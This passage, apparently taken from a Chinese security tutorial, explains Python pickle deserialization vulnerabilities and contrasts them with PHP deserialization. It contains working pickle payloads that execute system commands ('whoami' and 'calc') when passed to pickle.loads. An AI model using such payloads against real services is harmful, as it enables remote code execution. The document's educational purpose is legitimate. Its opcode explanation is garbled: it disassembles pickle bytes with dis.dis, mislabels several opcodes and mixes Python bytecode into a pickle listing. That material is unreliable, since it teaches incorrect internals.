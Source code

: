 我们将这段字节码转换成指令序列

~~~python
import dis

code = b'\x80\x04\x95\x08\x00\x00\x00\x00\x00\x00\x00\x8c\x04haha\x94.'
dis.dis(code)
~~~

~~~python
\x80: PROTO 标记，用于指示当前的 pickle 协议版本。
\x04: 整数 4 的编码。
\x95: MARK 标记，用于将后续的对象打包到一个元组中。
\x08: 字符串长度为 8 的编码。
\x00\x00\x00\x00\x00\x00\x00: 字符串 "haha" 的编码。
\x8c: SHORT_BINSTRING 标记，用于表示短字符串（长度小于 256）。
\x04: 短字符串长度为 4 的编码。
\x94: TUPLE1 标记，用于将元组压入堆栈。
~~~

~~~python
    0: PROTO      4
    2: BINPUT     0
    4: MARK
    5: BININT1    4
    7: BININT     0
   10: EMPTY_TUPLE
   11: SHORT_BINSTRING 'haha'
   18: TUPLE1
   19: REDUCE
   20: POP
   21: POP_MARK
   22: LOAD_CONST None
   25: RETURN_VALUE
~~~

![imageb5b3f8a22d3aa1ac.png](https://cdnjson.com/images/2023/05/26/imageb5b3f8a22d3aa1ac.png)

![image2be00267c0c60cde.png](https://cdnjson.com/images/2023/05/26/image2be00267c0c60cde.png)

###### 4）php反序列化漏洞和python反序列化漏洞有什么区别吗？

python：如下，反序列化时可以直接将字符串解析成可执行的代码对象，并且可以执行其中包含的命令

~~~python
import pickle

s = b"cos\nsystem\n(S'whoami'\ntR."
pickle.loads(s)
~~~

或者你也可以直接对这段内容进行反序列化[字节码]

~~~python
import pickle
s = b'\x80\x04\x95\x1c\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x04calc\x94\x85\x94R\x94.'
pickle.loads(s)
~~~

